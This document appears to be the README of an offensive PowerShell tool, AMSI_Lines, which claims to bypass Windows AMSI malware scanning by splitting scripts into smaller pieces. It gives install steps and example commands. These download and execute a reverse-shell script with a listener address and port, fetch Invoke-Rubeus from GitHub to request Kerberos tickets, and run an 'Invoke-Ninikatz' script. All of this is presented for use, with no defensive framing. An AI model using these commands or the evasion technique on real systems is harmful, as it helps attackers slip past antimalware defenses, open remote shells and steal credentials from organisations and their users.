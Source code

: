 # AMSI_Lines

*Bypass AMSI By Dividing files  into multiple smaller files*

### How To Use It

1. Clone The repository: `git clone https://github.com/x4sh3s/AMSI_Lines.git`
2. import the module
```powershell
PS C:\AMSI_Lines>import-module AMSI.ps1
```
3. execute the function `AMSI_Lines` : `AMSI_Lines -File "Url of the File" -Command "Command to be executed directly"`

### Examples:

```powershell
AMSI_Lines -File http://127.0.0.1:8080/revshell.ps1 -Commands "-LHOST MyIp -Port 9001"
AMSI_Lines # This Will Execute Invoke-Rubeus By default with '-h' parameter
AMSI_Lines -file "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1" -Commands "invoke-rubeus asktgt"
AMSI_Lines -file "http://127.0.0.1:8001/Invoke-Ninikatz.ps1" -Commands "help"
```
